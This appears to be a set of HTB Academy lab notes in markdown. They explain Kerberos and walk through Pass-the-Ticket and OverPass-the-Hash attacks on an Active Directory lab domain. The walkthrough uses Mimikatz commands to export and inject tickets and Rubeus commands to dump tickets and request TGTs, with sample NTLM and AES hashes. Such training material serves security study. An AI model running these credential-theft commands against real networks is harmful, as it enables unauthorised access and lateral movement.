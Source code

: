 # Kerberos Protocol Refresher
The Kerberos authentication system is ticket-based. The central idea behind Kerberos is not to give an account password to every service you use. Instead, Kerberos keeps all tickets on your local system and presents each service only the specific ticket for that service, preventing a ticket from being used for another purpose.

1) The `TGT - Ticket Granting Ticket` is the first ticket obtained on a Kerberos system. The TGT permits the client to obtain additional Kerberos tickets or `TGS`.
2) The `TGS - Ticket Granting Service` is requested by users who want to use a service. These tickets allow services to verify the user's identity.

## Pass the Ticket (PtT) Attack from mimikatz
We need a valid Kerberos ticket to perform a Pass the Ticket (PtT). It can be:
1) Service Ticket (TGS - Ticket Granting Service) to allow access to a particular resource.
2) Ticket Granting Ticket (TGT), which we use to request service tickets to access any resource the user has privileges.

We can harvest all tickets from a system using the Mimikatz module sekurlsa::tickets /export. The result is a list of files with the extension `.kirbi`, which contain the tickets.

**Mimikatz:**
```bash
privilege::debug
```
If response `Privilege '20' OK` then it means we have administrator rights.
```bash
sekurlsa::tickets /export
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/bb0b055d-a88c-4df9-b509-c9575cf1f1c9)
<br>
The tickets that end with `$` correspond to the computer account, which needs a ticket to interact with the Active Directory. User tickets have the user's name, followed by an `@` that separates the service name and the domain, for example: [ randomvalue ]-username@service-domain.local.kirbi.

## Using tickets from mimikatz

We use exact same directory which tickets located.
We will launch mimkatz.exe and check privilege by `privilege::debug`
And then final command:
```bash
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/6ae5912e-a38d-48da-a0c9-c4c2911b9fbf)

``
Note: Instead of opening mimikatz.exe with cmd.exe and exiting to get the ticket into the current command prompt, we can use the Mimikatz module misc to launch a new command prompt window with the imported ticket using the misc::cmd command.
``
**Alternatively!**
We can launch powershell after performing ptt attack
```bash
Enter-PSSession -ComputerName DC01
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/7217a393-2261-4ee4-bee5-b82a9d821073)

# Pass the ticket from Rubeus

```bash
Rubeus.exe dump /nowrap
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/565d15b4-3c39-4e13-9843-84b6dffdde3e)

## Pass the key over pass the hash
From mimikatz:
```bash
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```
This will create a new cmd.exe window that we can use to request access to any service we want in the context of the target user.
<br>

To forge a ticket using Rubeus, we can use the module asktgt with the username, domain, and hash which can be `/rc4`, `/aes128`, `/aes256`, or `/des`. In the following example, we use the aes256 hash from the information we collect using Mimikatz sekurlsa::ekeys.
From rubes `pass the ticket over pass the hash`:
```bash
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```
NOTE:
_Note: Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't._
<br>
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/f05df475-36bb-49e2-8a6d-6120ebff4580)
